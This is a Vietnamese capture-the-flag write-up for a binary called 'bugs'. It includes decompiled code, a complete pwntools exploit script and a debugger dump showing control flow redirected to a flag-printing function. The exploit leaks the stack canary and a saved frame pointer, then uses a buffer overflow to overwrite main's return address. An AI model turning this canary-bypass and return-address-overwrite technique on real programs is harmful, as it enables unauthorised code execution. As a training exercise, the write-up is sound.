 
# Bugs

Bài này mục đích của mình sẽ chuyển hướng control flow vào hàm leuleu của chương trình.
```sh
leuleu function
unsigned __int64 leuleu()
{
  FILE *stream; // [rsp+8h] [rbp-78h]
  char s[104]; // [rsp+10h] [rbp-70h] BYREF
  unsigned __int64 v3; // [rsp+78h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  stream = fopen("flag", "r");
  __isoc99_fscanf(stream, "%s", s);
  fclose(stream);
  puts(s);
  return __readfsqword(0x28u) ^ v3;
}

```
Ở bài này chúng ta sẽ dùng lỗi bufferOverflow tại hàm `read(0, a1, 72uLL)` trong `info function` khi mà tham số a1 ( là thằng v6 của hàm main) của mình chỉ có 40 byte.
Mình sẽ thay đổi địa chỉ của `ret` của hàm main thành địa chỉ của hàm `leuleu`. Nhưng vấn đề gặp phải là chương trình có `Stack canary` buộc mình phải by pass nó. 
## Các bước mình khai thác là:
* Leak được địa chỉ trong stack, tìm offset từ địa chỉ leak được tới địa chỉ của canary, và của V[5].
* Dùng hàm findbox cho sẵn để leak canary. (chuyển sang kiểu số nguyên để tìm).
* Dùng hàm flushbox để gán 0 cho v[5], lúc này chương trình sẽ thoát và gọi hàm `leuleu`

# File exploit.py
```sh
from pwn import *
s = process("./bugs")
pause()

#---------- leak địa chỉ của stack ----------------
s.recvuntil("[1. info, 2. show info, 3.findbox, 4.flushbox]>")
s.sendline("3")
s.recvuntil("Address of box>")
s.sendline("a")
s.recv()
leak = s.recv(14)
v5 = int(leak,16) + 0x30 #offset từ leak_addr đến v[5] = 0x30
log.info("v5 = " + hex(v5))

canary_addr = int(leak,16) + 0x5c #offset từ lead_addr đến canary = 0x5c
log.info("leak_canary = " + hex(canary_addr))

#---------- leak canary ---------------------------
s.recvuntil("[1. info, 2. show info, 3.findbox, 4.flushbox]>")
s.sendline("3")
s.recvuntil("Address of box>")
s.sendline(str(canary_addr))

s.recvuntil(": ")
canary = s.recv("18")
print canary
canary = int(canary,16)
#---------- leak rbp -------------------------------
rbp_addr = int(leak,16) + 0x5c + 0x8
log.info("leak_rbp = " + hex(rbp_addr))
s.recvuntil("[1. info, 2. show info, 3.findbox, 4.flushbox]>")
s.sendline("3")
s.recvuntil("Address of box>")
s.sendline(str(rbp_addr))

s.recvuntil(": ")
rbp = s.recvline()
print rbp
rbp = int(rbp,16)

#---------- đưa địa chỉ hàm leuleu vào rbp+8 (ret-main)--------

pl = "a"*0x28 + p64(canary) + p64(rbp) + p64(0x400876)
s.recvuntil(">")
s.sendline("1")
s.recvuntil("Yourname?")
s.sendline(pl)

#---------- xóa giá trị v5 ------------------------------------
s.recvuntil("[1. info, 2. show info, 3.findbox, 4.flushbox]>")
s.sendline("4")
s.recvuntil("Address of box>")
s.sendline(str(v5))

s.interactive()

```

sau khi thực thi thì mình sẽ vào được hàm leuleu
```sh
 RAX  0x0
 RBX  0x0
 RCX  0x7f19d50b3224 (write+20) ?— cmp    rax, -0x1000 /* 'H=' */
 RDX  0x0
 RDI  0x1
 RSI  0x2332260 ?— 'ok!\ness of box> \n info, 3.findbox, 4.flushbox]> \n'
 R8   0x7f19d55a8500 ?— 0x7f19d55a8500
 R9   0x0
 R10  0x7f19d5141c40 (_nl_C_LC_CTYPE_class+256) ?— add    al, byte ptr [rax]
 R11  0x246
 R12  0x400780 (_start) ?— xor    ebp, ebp
 R13  0x7ffce80d2f70 ?— 0x1
 R14  0x0
 R15  0x0
*RBP  0x400b80 (__libc_csu_init) ?— push   r15
*RSP  0x7ffce80d2e98 —? 0x400876 (leuleu) ?— push   rbp
*RIP  0x400b7b (main+236) ?— ret    
--------------------------------------------[ DISASM ]---------------------------------------------
   0x400b61 <main+210>     mov    eax, 0
   0x400b66 <main+215>     mov    rdx, qword ptr [rbp - 8]
   0x400b6a <main+219>     xor    rdx, qword ptr fs:[0x28]
   0x400b73 <main+228>     je     main+235 <main+235>
    ?
   0x400b7a <main+235>     leave  
 ? "0x400b7b <main+236>     ret             <0x400876; leuleu>
    ?"
   0x400876 <leuleu>       push   rbp
   0x400877 <leuleu+1>     mov    rbp, rsp
   0x40087a <leuleu+4>     add    rsp, -0x80
   0x40087e <leuleu+8>     mov    rax, qword ptr fs:[0x28]
   0x400887 <leuleu+17>    mov    qword ptr [rbp - 8], rax
---------------------------------------------[ STACK ]---------------------------------------------
00:0000¦ rsp  0x7ffce80d2e98 —? 0x400876 (leuleu) ?— push   rbp
01:0008¦      0x7ffce80d2ea0 ?— 0xa /* '\n' */
02:0010¦      0x7ffce80d2ea8 —? 0x7ffce80d2f78 —? 0x7ffce80d46eb ?— 0x4c00736775622f2e /* './bugs' */
03:0018¦      0x7ffce80d2eb0 ?— 0x100008000
04:0020¦      0x7ffce80d2eb8 —? 0x400a8f (main) ?— push   rbp
05:0028¦      0x7ffce80d2ec0 ?— 0x0
06:0030¦      0x7ffce80d2ec8 ?— 0x985e41c4d6a6a961
07:0038¦      0x7ffce80d2ed0 —? 0x400780 (_start) ?— xor    ebp, ebp
-------------------------------------------[ BACKTRACE ]-------------------------------------------
 ? f 0           400b7b main+236
   f 1           400876 leuleu
   f 2                a
   f 3     7ffce80d2f78
   f 4        100008000
   f 5           400a8f main
   f 6                
---------------------------------------------------------------------------------------------------

```
### Tác giả: anh H4niz có nói:
` Chạy vô hàm leuleu là ok r nhé em.Tới đây e hoàn toàn có thể chạy trên server để lấy flag r nhé ` 
